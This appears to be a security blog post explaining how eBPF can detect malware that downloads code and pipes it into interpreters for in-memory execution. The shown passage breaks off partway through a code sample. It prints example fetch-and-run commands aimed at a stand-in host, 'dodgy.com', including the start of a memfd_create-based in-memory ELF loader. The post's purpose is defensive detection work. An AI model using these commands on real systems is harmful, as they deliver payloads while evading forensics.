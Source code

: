 ```yaml
---
layout: post
title:  "Using eBPF to uncover in-memory loading"
date:   2021-02-15 12:00:00 +0000
cat:    eBPF
---
```


# tl;dr
eBPF is really awesome for lots of reasons, as an example I use it in [this project](https://github.com/pathtofile/bpf-pipesnoop) to
log when malware uses bash pipes (`|`) to do in-memory loading from the internet.

# eBPF is hella neat
Extended Berkley Packet Filters (eBPF) is one of the coolest things happening to the Linux Kernel at the moment.
I'm not going to be able to explain it any better than [this page created by the eBPF community](https://ebpf.io/what-is-ebpf/),
but in essesence it allows you to easily write and run simple, safe, and (in very new kernels) portable programs into the kernel to do network
routing or observe kernel or user mode function calls. This is done without the overheaded of a full kernel module, and with static and runtime protections to ensure a bug in your code can't crash the entire system.

While it's on its way to revolutionise how networking works in the kernel (in particular how it works with containers),
another awesome use case is in observing program behaviour, without directly intercepting their behaviour, or attaching to them via a debugger/PTRACE.

Lots of malware (and even some legitimate programs) employ a number of tactics to prevent or detect when they are being debugged,
so the ability to passivley observe what the malware does (what files it reads, what IP addresses it connects to, etc.) without letting the malware
know is extremely useful. A great program the uses eBPF for this purpose is [Tracee](https://github.com/aquasecurity/tracee/).

There's lots of other real cool uses for eBPF in reverse engineering and malware analysis, I plan on writing more blogs with more examples, but I've picked one use-case to start with - in-memory loading.


# A load of memory
If an attacker gains shell access to a system, it's quite common to see the following pattern to download and run next-stage implant (or ransomware)
```bash
curl https://dodgy.com/loader.py | python -
```
This uses `curl` to download a script from the internet, and pass it directly into `python` via a pipe (`|`). By not first writing to disk, this technique can keep the script away from forensics teams, or security tools scanning the filesystem for suspicious files. And it's not just scripts, attackers can pass Python a full PE to load and run, all in memory as well:
```bash
curl https://dodgy.com/dodgy_elf | python3 -c '
# Import libc
import sys
import os
from ctypes import CDLL
libc = CDLL("libc.so.6")

# Use memfd syscall to create an in-memory file
memfd_create = 319
```